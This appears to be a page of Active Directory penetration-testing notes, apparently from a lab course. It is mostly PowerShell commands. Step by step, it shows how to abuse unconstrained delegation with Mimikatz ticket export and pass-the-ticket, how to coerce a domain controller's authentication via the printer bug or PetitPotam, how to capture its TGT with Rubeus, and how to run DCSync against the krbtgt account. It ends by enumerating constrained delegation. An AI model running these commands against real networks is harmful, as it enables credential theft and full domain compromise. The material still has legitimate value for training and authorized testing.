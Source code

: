 ```powershell
# 1. Enumerate computers with Unconstrained Delegation
Get-NetComputer -UnConstrained

# 2. Check if a token is available and save to disk
# After admin connects
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# 3. Reuse of the DA token
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

##### Abusing Printer Bug

```powershell
# 1. Start Rubeus in monitoring mode
# Capture the TGT
.\Rubeus.exe monitor /interval:5
```

###### MS-RPRN or PetitPotam

>   https://github.com/leechristensen/SpoolSample
>
>   https://github.com/topotam/PetitPotam

```powershell
# 2. Coerce an authentication  
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local

# or

.\PetitPotam.exe us-web us-dc
```

```powershell
# 3. Capture the TGT run DCSync
# Copy the base64 encoded TGT, remove extra spaces and use it on the attacker machine
.\Rubeus.exe ptt /ticket:

# OR use Invoke-Mimikatz
[IO.File]::WriteAllBytes("USDC.kirbi",[Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
Invoke-Mimikatz -Command '"kerberos::ptt USDC.kirbi"'

# Run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

### Constrained Delegation with Protocol Transition

##### PowerView

```powershell
# Enumerate users and computers with CD enabled
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
